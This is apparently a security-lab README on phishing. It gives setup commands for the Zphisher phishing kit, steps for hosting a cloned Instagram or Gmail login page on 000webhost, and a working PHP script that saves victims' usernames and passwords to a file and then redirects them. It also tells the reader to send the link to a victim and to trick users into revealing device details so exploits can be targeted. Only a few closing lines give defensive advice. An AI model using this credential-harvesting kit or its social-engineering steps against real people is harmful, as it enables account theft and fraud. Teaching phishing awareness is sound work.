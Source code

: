 # 🎣 Phishing & Mobile OS Information Gathering – Zphisher & Termux

## 🎯 Objective  
Simulate phishing attacks using pre-built templates with Zphisher, and gather mobile device metadata through social engineering. Understand how attackers craft believable phishing pages and capture credentials.

---

## 🛠️ Tools Used  
- Zphisher (GitHub phishing tool)  
- 000webhost (hosted phishing site)  
- Termux / iSH (mobile info gathering)  
- Firefox / Browser  
- Kali Linux / Android Phone

---

## 🎯 A. Launch a Phishing Page (Zphisher)

### 🔧 Steps:

1. Clone and install Zphisher:
```bash
git clone https://github.com/htr-tech/zphisher
cd zphisher
bash zphisher.sh
```

2. Choose a phishing template:
- Facebook, Instagram, Gmail, LinkedIn, etc.

3. Select a hosting method:
- Use localhost or NGROK to expose public link

4. Copy and send the generated phishing link to a victim

🧠 **Result**: When the victim enters credentials, Zphisher captures and displays them.

---

## 🧪 B. Host a Phishing Site on 000webhost

1. Create a free 000webhost account  
2. Upload a cloned login page (e.g., fake Instagram or Gmail)  
3. Modify `login.php` to POST to `POST.php`  
4. Create a `POST.php` file to capture form data:

```php
<?php
file_put_contents("credentials.txt", "USER: " . $_POST['username'] . " | PASS: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://instagram.com'); // Redirect after login
exit();
?>
```

5. Upload both files and share the link

6. View captured credentials:
```
credentials.txt
```

---

## 📱 C. Mobile OS Info Gathering – Termux & iSH

### Termux (Android):
```bash
pkg update && pkg upgrade
pkg install neofetch
neofetch
```

### iSH (iOS Terminal Emulator):
```bash
apk update && apk add neofetch
neofetch
```

🧠 **Use:** Trick users into pasting device output (platform, CPU, kernel, etc.)  
💡 Often used to estimate device capabilities or deliver specific exploits

---

## 🧠 Key Concepts

- **Phishing** leverages trust and urgency  
- **Credential harvesting** via cloned sites is highly effective  
- **Mobile info gathering** supports fingerprinting and tracking  
- Zphisher automates the setup but still requires social engineering skill

---

## 📸 Recommended Screenshots

Save inside `phishing-social-engineering/screenshots/`:

- `zphisher-ui.png` → Tool running in terminal  
- `phishing-page.png` → Screenshot of fake login form  
- `captured-creds.png` → Terminal showing intercepted credentials  
- `000webhost-upload.png` → Hosting the phishing files  
- `mobile-neofetch.png` → Neofetch output from phone

---

## 🛡️ Security Advice

- Always check the URL before logging in  
- Avoid clicking unknown shortened links  
- Use MFA to protect against credential theft  
- Educate users on how phishing looks and works  
- Monitor endpoints for unauthorized info sharing
